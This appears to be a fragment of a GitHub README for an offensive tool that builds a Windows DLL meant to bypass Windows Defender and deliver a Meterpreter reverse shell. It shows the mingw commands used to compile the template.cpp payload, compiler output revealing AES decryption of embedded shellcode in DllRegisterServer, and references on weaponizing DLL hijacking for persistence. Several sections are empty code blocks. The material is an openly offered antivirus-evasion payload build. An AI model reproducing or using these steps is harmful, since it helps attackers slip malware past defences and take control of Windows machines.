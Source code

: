 - 
- [References](#references)

-------------------------------------------

## [Compile C++ Code]
https://raw.githubusercontent.com/gemini-security/Bypass-Windows-Defender-with-CPP-.DLL-Payload-File---Meterpreter-Reverse-Shell/main/template.cpp
```sh
x86_64-w64-mingw32-gcc -shared -o helloworld.dll template.cpp
x86_64-w64-mingw32-gcc -fpermissive -shared -o helloworld.dll template.cpp
```

## 
```sh
$ x86_64-w64-mingw32-gcc -shared -o helloworld.dll template.cpp 
template.cpp: In function ‘BOOL DllRegisterServer()’:
template.cpp:68:52: error: invalid conversion from ‘unsigned char*’ to ‘char*’ [-fpermissive]
   68 |         DecryptAES((char*)payload, payload_length, AESkey, sizeof(AESkey));
      |                                                    ^~~~~~
      |                                                    |
      |                                                    unsigned char*
template.cpp:7:60: note:   initializing argument 3 of ‘void DecryptAES(char*, DWORD, char*, DWORD)’
    7 | void DecryptAES(char* shellcode, DWORD shellcodeLen, char* key, DWORD keyLen) {
      |                                                      ~~~~~~^~~
$ l
total 4.0K
-rw-r--r-- 1 kali kali 2.6K Nov 29 13:30 template.cpp
```

## 
```sh
$ x86_64-w64-mingw32-gcc -fpermissive -shared -o helloworld.dll template.cpp
template.cpp: In function ‘BOOL DllRegisterServer()’:
template.cpp:68:52: warning: invalid conversion from ‘unsigned char*’ to ‘char*’ [-fpermissive]
   68 |         DecryptAES((char*)payload, payload_length, AESkey, sizeof(AESkey));
      |                                                    ^~~~~~
      |                                                    |
      |                                                    unsigned char*
template.cpp:7:60: note:   initializing argument 3 of ‘void DecryptAES(char*, DWORD, char*, DWORD)’
    7 | void DecryptAES(char* shellcode, DWORD shellcodeLen, char* key, DWORD keyLen) {
      |                                                      ~~~~~~^~~

$ l
total 224K
-rwxr-xr-x 1 kali kali 219K Nov 29 13:36 helloworld.dll
-rw-r--r-- 1 kali kali 2.6K Nov 29 13:30 template.cpp
```

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```

# [References](#references-1)

https://www.ired.team/offensive-security/persistence/dll-proxying-for-persistence

https://medium.com/@lsecqt/weaponizing-dll-hijacking-via-dll-proxying-3983a8249de0